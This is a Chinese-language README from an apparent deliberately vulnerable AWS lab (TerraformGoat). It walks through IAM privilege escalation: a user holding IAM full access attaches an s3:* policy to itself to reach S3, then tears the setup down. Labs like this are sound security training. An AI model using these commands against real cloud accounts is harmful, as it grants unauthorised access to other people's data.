

# AWS IAM 提权漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS IAM 提权漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 IAM 提权漏洞访问到原本没有权限访问的服务。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/iam/privilege_escalation
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，通过以下命令查看低权限账号的 access_key_id 和 secret_access_key

```shell
apt-get install jq -y
terraform state pull | jq '.resources[] | select(.type == "aws_iam_access_key") | .instances[0].attributes'
```


## 漏洞利用

首先配置上低权限账号的 access_key_id 和 secret_access_key

```shell
aws configure
```

配置完后，这里以 S3 服务为例，尝试运行以下命令，发现访问被拒绝

```shell
aws s3 ls
```


查看当前用户的权限

```shell
aws iam get-user
aws iam list-user-policies --user-name huoxian_terraform_test
aws iam get-user-policy --user-name huoxian_terraform_test --policy-name IAMFullAccess
```


发现当前用户有 IAM 的所有权限，这也就意味着我们可以给当前用户赋予 S3 的权限，从而使当前用户拥有 S3 服务的权限。

编辑策略文件

```shell
vim AmazonS3FullAccess.json
```

文件内容如下：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:*",
                "s3-object-lambda:*"
            ],
            "Resource": "*"
        }
    ]
}
```

上传策略文件

```shell
aws iam put-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess --policy-document file://AmazonS3FullAccess.json
```

再次尝试获取 S3 服务内容，发现已经可以获取了，说明策略文件生效了，这样就实现了 IAM 提权。

```shell
aws s3 ls
```



## 销毁环境

```shell
aws iam delete-user-policy --user-name huoxian_terraform_test --policy-name AmazonS3FullAccess
terraform destroy
```
